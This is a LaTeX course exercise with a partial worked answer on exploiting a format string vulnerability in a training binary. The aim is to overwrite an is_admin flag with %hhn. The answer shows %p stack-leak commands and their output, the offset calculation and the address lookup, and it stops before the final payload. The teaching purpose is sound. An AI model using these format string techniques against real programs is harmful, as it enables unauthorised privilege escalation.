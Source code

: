 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{enumerate}
\item[\textbf{5c)}] Construct the \texttt{\%hhn} exploit to write a non-zero value to \texttt{is\_admin}. The strategy is:
\begin{enumerate}
    \item Place the address of \texttt{is\_admin} at the end of the payload (after the format specifiers)
    \item Use padding to adjust the number of characters printed
    \item Use \texttt{\%hhn} with the appropriate offset to write to \texttt{is\_admin}
\end{enumerate}

\item[\textbf{5d)}] Execute the exploit and verify that the message \texttt{"Admin access granted!"} is displayed.
\end{enumerate}

\begin{correction}

\textbf{5a)} Locating the buffer on the stack:
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 "AAAAAAAA.%p.%p.%p.%p.%p.%p.%p.%p"
=== FormatX64 - Format String Vulnerability ===

[DEBUG] is_admin is at address: 0x404040
[DEBUG] is_admin value (before): 0

AAAAAAAA.0x7fffffffdc30.0x7ffff7f9a2a0.(nil).0x7fffffffdd40.
0x7ffff7ffdaa0.0x4141414141414141.0x2e70252e70252e2e.0x252e70252e70252e
\end{lstlisting}

We see \texttt{0x4141414141414141} at position \textbf{6}. Therefore \texttt{k = 6}:
\begin{lstlisting}[style=GDBStyle]
$ ./formatx64 $(python3 -c "print('AAAAAAAA%6\$p')")
... 0x4141414141414141 ...
\end{lstlisting}

\textbf{5b)} Address of \texttt{is\_admin}:
\begin{lstlisting}[style=GDBStyle]
$ nm formatx64 | grep is_admin
0000000000404040 B is_admin
\end{lstlisting}
The address is \texttt{0x404040}.

\textbf{5c)} Constructing the exploit. The address \texttt{0x404040} contains null bytes (\texttt{0x00 0x00 0x40 0x40 0x40 0x00 0x00 0x00}). We place it at the \textbf{end of the string}. We must calculate the position of this address on the stack.

The buffer starts at offset 6 on the stack. If our format string is 16 bytes before the address (2 quadwords), the address will be at offset $6 + 2 = 8$.


\end{correction}
\end{exercice}
\end{document}

